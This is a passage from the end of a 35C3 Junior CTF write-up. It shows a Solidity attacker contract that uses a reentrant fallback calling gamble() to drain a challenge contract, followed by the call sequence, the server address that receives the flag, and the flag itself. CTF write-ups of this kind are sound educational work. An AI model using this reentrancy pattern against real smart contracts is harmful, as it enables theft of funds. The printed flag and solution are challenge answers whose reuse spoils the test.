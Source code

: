   constructor (address _entrance, string _server, string _port) public {
    server = _server;
    port = _port;
    entrance = Entrance(_entrance);
  }
  
  function enter () public {
    entrance.enter(12341111);
    entrance.gamble();
  }
  
  function getFlag () public {
    entrance.getFlag(server, port);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }
  
  function () public payable {
    entrance.gamble();
  }
}
{{< /highlight >}}

I created an instance and called `enter()` until the Ethereum block number was divisible by seven, then checked the balance and called for the flag:
```
ReEntrance(0x1898Ed72826BEfa2D549004C57F048A95ae0B982, "185.35.202.202", "9956")
  -> 0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943
enter()
balanceOf(0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943)
  -> 1100
getFlag()
```

The flag got delivered to the wanted `server:port`:
```
35c3_reeeeeeeeeeeeeeeeeeeeee
```

# Comments?

Do you have comments? Interact with this tweet:

{{< tweet 1082089985820504064 >}}

# More 35C3 Junior CTF Write-Ups
The Norwegian hackerspace [Hackeriet](https://hackeriet.no/index.en.html) had a (tiny) [team](https://archive.aachen.ccc.de/junior.35c3ctf.ccc.ac/submissions/755/index.html) in the 35C3 Junior CTF. Please see the following write-ups by Alexander Kjäll a.k.a. capitol:

* [Solution to 35C3 Junior CTF challenge pretty linear](https://blog.hackeriet.no/solution-to-junior-35c3-pretty-linear/)
* [Solution to 35C3 Junior CTF challenge DANCEd](https://blog.hackeriet.no/solution-to-junior-35c3-DANCEd/)
* [Solution to 35C3 Junior CTF challenge Decrypted](https://blog.hackeriet.no/solution-to-junior-35c3-Decrypted/)
* [Solution to 35C3 Junior CTF challenge flags](https://blog.hackeriet.no/solution-to-junior-35c3-flags/)
